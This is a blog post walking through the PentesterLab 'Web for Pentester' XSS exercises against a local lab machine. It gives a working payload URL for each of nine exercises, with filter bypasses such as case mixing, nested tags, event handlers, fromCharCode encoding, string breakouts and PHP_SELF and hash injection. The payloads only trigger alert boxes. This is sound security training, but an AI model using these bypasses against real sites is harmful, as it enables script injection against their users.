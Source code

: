 ```yaml
---
layout:     post
title:      "Web for Pentester"
subtitle:   "XSS Write-Up"
date:       2016-09-01 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
---
```


<p>Today we're going to continue our journey through the word of web application security - more accurately XSS exercises from <a href="https://pentesterlab.com/">PentesterLab</a>. It's great way to practice what we have learned so far and also - good challenge. Let's jump into the first one!</p>

<h3>Exercise 1</h3>

<p>Here we have a very basic example of Cross Site Scripting where you have to change the variable that is visible in the URL (which is our example is <i>name=hacker</i>) into the alert script that will allow us to see whether if it works. </p>

{% highlight html %}
http://192.168.0.12/xss/example1.php?name=<script>alert("Xss")</script>
{% endhighlight %}

![exercise-1](/img/xss-exercise/exercise-1.png){:class="img-responsive"}

<p>Great, it works perfectly, let's move to the next one!</p>

<h3>Exercise 2</h3>
<p>Firstly I wanted to try whether the method from the previous one works but as I suspected it didn't. What we got after entering script was this source code. </p>

{% highlight html %}
<div class="container">
Hello
alert("Xss")
{% endhighlight %}

<p>It may be somehow filtering our input - maybe changing it to uppercase will help us? </p>   

{% highlight html %}
http://192.168.0.12/xss/example2.php?name=<sCript>alert("Xss")</sCript>
{% endhighlight %}

<p>Great! It works and we've bypassed the filter. Let's move on to the next one! </p>

<h3>Exercise 3</h3>

<p>This one is a little harder - it doesn't allow <b>script</b> or even <b>sCript</b> so we have to try something else. From what I learned about methods to bypass filtering it may be possible to use this simple trick. </p>

{% highlight html %}
http://192.168.0.12/xss/example3.php?name=<scr<script>ipt>alert("Xss")</scr</script>ipt>
{% endhighlight %}

<p>If you don't know how this works - the filter firstly looks for <i>script</i> tag, deletes it, and then sends the result. But after taking out the script two other parts <b>scr</b> and <b>ipt</b> will merge into one creating our payload. </p>

<h3>Exercise 4</h3>

<p>Here it looks like more advanced version of filter, it completely takes out the word script and when the request matches script, it will stop. So what options do we have to bypass it? We can put <b>img</b> tag with some attributes allowing us to create a paylod. Onmouseover will be an excellent example but you can use any other you will think that will work. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onmouseover="alert('XSS')"></img>
{% endhighlight %}

<p>It will even better work with <b>onerror</b> since it will execute automatically when the page loads. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onerror="alert('XSS')"></img>
{% endhighlight %}

<h3>Exercise 5</h3>

<p>This one is a little trickier - it allows <b>script</b> tags but doesn't allow <b>alert</b> function. How can we make it alert something without actually typing it? We can translate this into the ASCII characters. </p>

{% highlight html %}
alert("XSS") = 097 108 101 114 116 040 034 088 083 083 034 041
{% endhighlight %}

<p>Which after small redesign will result in actually working XSS!</p>

{% highlight html %}
http://192.168.0.12/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>
{% endhighlight %}

<h3>Exercise 6</h3>

<p>This one is a little different. After looking into the source code (which you should always do at the beginning) we get this small JavaScript code. </p>

{% highlight html %}
Hello
<script>
	var $a= "hacker";
</script>
{% endhighlight %}

<p>Vaule of $a changes everytime we enter something different in <b>name=</b> field. We can try to manipulate this script into running alert function. Firstly I add <b>"</b> character to indicate that text is before this quotiation mark. Then let's add <b>;</b> as it's always used in JavaScript at the end of a line. After that I'm ready to add <b>alert('XSS')</b> but it still won't work because of the quotiation mark at the end of the input so let's try commenting it out with <b>//</b>. And it works!</p>

{% highlight html %}
http://192.168.0.12/xss/example6.php?name=me";alert('XSS')//
{% endhighlight %}

<h3>Exercise 7</h3>

<p>Here w're dealing with similar challenge as in the previous one. </p>
{% highlight html %}
Hello
<script>
	var $a= 'hacker';
</script>
{% endhighlight %}

<p>Using the previous strategy I manage to get the XSS alert working. </p>
{% highlight html %}
http://192.168.0.12/xss/example7.php?name=hacker';alert('XSS');//
{% endhighlight %}

<h3>Exercise 8</h3>
<p>Hmmm... We've got the input field that will not allow any of our XSS tricks. I actually had no idea how to attack this example so I checked out hints provided by PentesterLab. Let's take a look at them. </p>

<p><i>Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It’s possible to manipulate the path of the application in order to:</i></p>
<ol>
<li><i>call the current page (however you will get an HTTP 404 page);</i></li>
<li><i>get a XSS payload in the page.</i></li>
</ol>
<p><i>This can be done because the current configuration of the server will call /xss/example8.php when any URL matching /xss/example8.php/... is accessed. You can simply get your payload inside the page by accessing /xss/example8.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.</i></p>

<p>Wow, I haven't thought about that. Let's see what happens if we simply add it <b>/xss/example8.php/[XSS_PAYLOAD]</b> like in here. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/<script>alert("XSS")</script>
{% endhighlight %}

<p>But it still doesn't work. We have to somehow tweak it into the working version. </p>

{% highlight html %}
<form action="/xss/example8.php/<script>alert("XSS")</script>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
{% endhighlight %}

<p>If we take a look at it a little closer we can see that if we add <b>"></b> after the example8.php it will close the path and allow script to execute. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/"><script>alert("XSS")</script>
{% endhighlight %}

<p>To the last one!</p>

<h3>Exercise 9</h3>
<p>By looking at the source code it reveals to us that the script is simply executing everything after the hash string.</p>
{% highlight html %}
<script>
    document.write(location.hash.substring(1));
</script>
{% endhighlight %}
<p>Solution will look like this. I don't know why but it worked for me only in Chrome browser, not in Firefox. Luckily we managed to complete this set of exercises. </p>
{% highlight html %}
http://192.168.0.12/xss/example9.php#<script>alert("XSs")</script>
{% endhighlight %}

<p>Thanks for tuning in! It was great challenge, and I'm sure to complete other exercise on Web for Pentester ISO. Hopefully there will be more XSS challenges as I'm really enjoying them. Stay updated for more and remember... </p>
<p>~ Stay safe!</p>
